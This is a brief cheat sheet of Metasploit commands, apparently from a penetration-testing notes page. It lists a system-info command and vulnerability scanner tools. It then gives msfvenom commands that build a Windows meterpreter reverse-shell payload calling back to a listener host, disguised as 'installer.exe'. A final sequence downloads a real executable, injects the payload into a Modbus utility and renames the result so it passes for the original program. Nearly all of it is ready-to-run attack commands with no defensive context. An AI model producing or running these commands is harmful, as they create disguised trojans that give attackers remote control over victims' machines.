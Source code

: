 ### Execute a command
execute -if systeminfo

### Scan for Vulns/0days
msfpescan - windows
msfmachscan - Mac
msfelfscan - unix 

##Payloads
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.75.1 LPORT=8080 -f exe -a x86 --platform windows -o installer.exe


### Payload inject into real file 
wget website/download.exe
msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 -o tmp.exe -k -x 'Smartline modbus.exe'
mv tmp.exe SmartLineModBus.exe 	